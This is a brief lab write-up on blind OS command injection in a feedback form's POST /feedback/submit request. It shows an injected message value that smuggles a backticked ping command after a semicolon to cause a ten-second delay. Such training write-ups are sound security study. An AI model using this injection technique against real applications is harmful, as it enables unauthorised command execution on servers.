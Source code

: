 # Lab: Blind OS command injection with time delays

>This lab contains a blind OS command injection vulnerability in the feedback function.

>The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

>To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

### Vulnerable area
`POST /feedback/submit`

### Time delay
Time delay can be executed with the `ping` command which sends 1 ping per sec... `ping -c 10 127.0.0.1` will send 10 pings over 10 secs to localhost

### Exploit
I modified the above request body to

<pre>csrf=wpdhAPnxLAFU5f4ZjfhjXw1t5lb8g9LS&name=niko&email=niko%40mail.com&subject=mad&message=masd;`ping -c 10 127.0.0.1`</pre>

Used command separator `;` and surrounded the ping command with backticks. I did this because we are executing the ping command *within* the command passed to the server (containing feedback info)

Lab solved!